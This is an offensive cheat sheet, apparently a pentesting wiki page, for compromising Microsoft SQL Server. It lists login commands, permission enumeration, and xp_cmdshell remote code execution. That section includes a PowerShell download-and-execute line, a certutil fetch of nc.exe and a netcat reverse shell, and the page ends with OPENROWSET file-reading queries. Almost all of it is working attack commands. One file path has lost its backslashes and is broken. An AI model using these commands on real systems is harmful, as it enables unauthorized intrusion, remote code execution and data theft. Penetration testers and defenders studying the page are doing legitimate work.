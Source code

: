 {% code overflow="wrap" fullWidth="true" %}
```sql
mssqlclient.py $user@$IP -windows-auth   # use domain/user format // then it will ask for the pass
mssqlclient.py -p $PORT (-db volume) (-windows-auth) <DOMAIN>/<USERNAME>:<PASSWORD>@<IP> # Recommended -windows-auth when you are going to use a domain. use as domain the netBIOS name of the machine

sqsh -S $IP:$PORT -U $USER -P $PASSWORD

# Look for user-generated tables
SELECT name FROM sysobjects WHERE xtype = 'U'
# Check privileges of our user
SELECT * FROM fn_my_permissions(NULL, 'SERVER');
```
{% endcode %}

## Permissions

{% code overflow="wrap" fullWidth="true" %}
```sql
# Permissions > see if we have permissions to execute certains commands
EXEC sp_helprotect 'xp_dirtree'
EXEC sp_helprotect 'xp_fileexist'
EXEC sp_helprotect 'xp_subdirs'
EXEC sp_helprotect 'OPENROWSET'
```
{% endcode %}

## RCE

{% code overflow="wrap" %}
```bash
# xp_cmdshell
SQL> enable_xp_cmdshell
SQL > RECONFIGURE
SQL> xp_cmdshell "whoami"
SQL> GO
# We have to escape quotes sometimes
xp_cmdshell "powershell IEX(New-Object Net.WebClient).downloadString(\"http://IP:PORT/FILE.EXT\")"
SQL> xp_cmdshell "certutil -urlcache -split -f http://$IP/nc.exe c:\users\public\nc.exe"
SQL> xp_cmdshell "c:\users\public\nc.exe 192.168.0.100 80 -e cmd"
```
{% endcode %}

## List directories / Read files

{% code overflow="wrap" fullWidth="true" %}
```sql
# List directories / read files (Try without quotes, single, double, \\ // and all posible combinations)
xp_dirtree
xp_dirtree \
xp_dirtree \Users
> xp_dirtree 'C:\Users\'

# Check if we have permission to use BULK option
SELECT * FROM fn_my_permissions(NULL, 'SERVER') WHERE permission_name='ADMINISTER BULK OPERATIONS' OR permission_name='ADMINISTER DATABASE BULK OPERATIONS';
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents

SELECT * FROM OPENROWSET (BULK 'c:usersadministratordesktoptest.txt', SINGLE_CLOB) as correlation_name;
```
{% endcode %}
